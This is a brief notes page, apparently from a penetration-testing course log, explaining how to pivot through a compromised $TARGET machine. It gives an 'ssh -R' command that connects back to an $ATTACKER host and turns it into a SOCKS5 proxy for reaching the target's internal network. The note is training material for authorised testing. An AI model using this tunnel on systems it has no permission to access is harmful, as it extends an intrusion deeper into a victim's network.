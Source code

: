 # Use SSH as a Proxy

author:: Nathan Acks  
date:: 2022-08-31

You can use SSH as a SOCKS5 proxy (with a tool like proxychains) using remote port forwarding.

You need to already have access to a $TARGET machine. SSH from the $TARGET back to the $ATTACKER box:

```bash
ssh -R $PORT $USER@$ATTACKER
```

This will open up $PORT on $ATTACKER, which can then be used as a SOCKS5 proxy by applications on $ATTACKER. Useful for gaining access to machines on an internal network that may be visible to $TARGET but not $ATTACKER.

* [2022-08-31 - OffSec Live: PEN-200](../log/2022-08-31-offsec-live-pen-200.md)
